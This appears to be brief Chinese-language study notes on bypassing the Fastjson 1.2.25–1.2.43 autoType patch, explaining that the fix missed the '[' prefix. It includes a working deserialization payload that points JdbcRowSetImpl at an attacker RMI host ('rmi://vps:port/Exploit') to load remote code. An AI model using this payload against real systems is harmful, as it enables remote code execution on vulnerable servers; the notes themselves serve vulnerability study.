



# Fastjson1.2.25-1.2.43补丁绕过

首先看看他们是怎么修复的，连续出现两个`L`就抛出异常

给出payload

```Java
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://vps:port/Exploit", "autoCommit":true}
```

官方只修复了`L;`但是忽视了`[`，可以看到`DefaultJSONParser`下的`parseArray`

当双引号后面不是`[`会报错



后面这里我也不太懂，还是对这个框架整体不太熟悉

